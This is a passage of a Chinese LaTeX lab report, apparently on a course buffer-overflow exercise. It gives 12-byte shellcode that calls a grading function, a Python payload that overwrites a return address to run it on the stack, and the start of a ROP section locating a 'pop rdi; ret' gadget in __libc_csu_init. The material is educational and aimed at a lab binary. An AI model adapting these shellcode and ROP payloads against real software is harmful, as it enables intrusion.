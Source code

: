 \documentclass[11pt,a4paper]{article}
\begin{document}
\begin{lstlisting}[language=myasm]
bf 04 00 00 00       mov    $0x4,%edi        # 参数 grade = 4
b8 87 1a 40 00       mov    $0x401a87,%eax   # grade_eval 地址
ff d0                call   *%rax            # grade_eval(4)
\end{lstlisting}

该 shellcode 仅 12 字节，可放入 16 字节缓冲区。\texttt{payload\_dark.py} 用机器码填满缓冲区，再把返回地址覆盖为缓冲区自身地址：

\begin{lstlisting}[language=Python]
shellcode = b"\xbf\x04\x00\x00\x00"
shellcode += b"\xb8" + struct.pack("<I", 0x401A87)
shellcode += b"\xff\xd0"                       # 共 12 字节
payload  = shellcode + b"\x90"*(16-len(shellcode))
payload += b"B"*8
payload += struct.pack("<Q", 0x721000800FD0)   # 返回到缓冲区
payload += b"\n"
\end{lstlisting}

\texttt{input} 的 \texttt{ret} 将控制流送入栈上 shellcode，最终输出红色的 \texttt{Hope A will be your grade!}。此时 \texttt{rsp = 0x721000800ff0}，16 字节对齐，shellcode 内 \texttt{call} 进入 \texttt{grade\_eval} 时满足 ABI 对齐要求。

\section{任务三：ROP}

\texttt{dark-calc-nx} 的栈不可执行且经 ASLR 随机化，但它是 non-PIE，\texttt{.text} 段地址固定且可执行。因此改用\textbf{返回导向编程（ROP）}，只在固定代码段中寻找以 \texttt{ret} 结尾的 gadget。

\subsection{Gadget 挖掘}

提示范围 \texttt{0x4019d0--0x401ae3} 对应 \texttt{\_\_libc\_csu\_init}，其末尾为：

\begin{lstlisting}[language=myasm]
401a32: 41 5f   pop %r15
401a34: c3      ret
\end{lstlisting}

从 \texttt{401a32} 中间的 \texttt{401a33} 开始取字节，\texttt{5f} 恰为 \texttt{pop \%rdi}，紧随的 \texttt{c3} 为 \texttt{ret}，于是得到隐藏 gadget：

\begin{itemize}[leftmargin=2em]
  \item \texttt{0x401a33：pop rdi ; ret}——可把栈上数据装入参数寄存器 \texttt{rdi}；
  \item \texttt{0x401a34：ret}——纯返回，用于栈对齐填充。
\end{itemize}
\end{document}
